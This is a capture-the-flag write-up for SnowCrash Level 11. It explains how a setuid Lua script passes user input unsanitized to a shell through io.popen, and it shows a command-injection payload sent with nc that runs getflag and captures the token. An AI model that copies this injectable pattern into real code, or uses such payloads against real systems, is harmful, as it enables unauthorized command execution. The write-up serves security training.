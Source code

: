 Level 11
========

*	We spawn with one file
	```console
	level11@SnowCrash:~$ ls -l
	total 4-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
	level11@SnowCrash:~$ ./level11.lua
	lua: ./level11.lua:3: address already in usestack traceback:[C]: in function 'assert'./level11.lua:3: in main chunk[C]: ?
	```
*	It is a lua script that creates a socket server which will listen on `localhost:5151`
*	It waits for incoming connections from client and except to recieve a password
*	Then it hashes the password using `SHA1` and check if it matches
	```lua
	prog = io.popen("echo "..pass.." | sha1sum", "r")
	```
*	BUT WAIT ! It is a trap, in fact we don't need to decrypt the hash
*	When we look at the line about the sha1 encryption we can see that the echo command is user here, we can then use the most used vulnerability in this project
	```console
	level11@SnowCrash:~$ nc 127.0.0.1 5151
	Password:  | getflag > /tmp/stuff
	Erf nope..
	level11@SnowCrash:~$ cat /tmp/stuffCheck 
	flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
	```